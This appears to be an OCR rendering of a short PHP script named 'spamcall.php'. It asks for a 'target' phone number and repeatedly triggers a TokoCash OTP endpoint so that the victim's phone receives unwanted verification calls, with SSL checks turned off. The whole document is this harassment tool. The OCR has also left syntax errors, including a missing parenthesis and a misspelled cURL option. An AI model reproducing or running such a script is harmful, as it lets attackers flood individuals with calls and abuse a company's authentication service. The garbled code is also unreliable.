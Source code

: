 # spamcall.php
&lt;?php function send($phone){    $ch = curl_init();    curl_setopt($ch,CURLOPT_URL, "https://www.tokocash.com/oauth/otp"    curl_setopt($ch,CURLOPT_SSL_VERIFYPEER, false);    curl_setopt($ch,CURLOPT_FOLLOWLOCATION, true);    curl_setopt($ch,CURLOPT_RETIRNTRANSFER, true);    curl_setopt($ch,CURLOPT_HEADER, true);    curl_setopt($ch,CURLOPT_POST, 1);    curl_setopt($ch,CURLOPT_POSTFIELDS, "msisdn=$phone&amp;accept=call");    $test = curl_exec($ch);    curl_close($ch);    echo $test."\n"; }  echo "masukan nomor target : "; $nomor = trim(fgets(STDIN)); $execute = send($nomor); print $execute;         
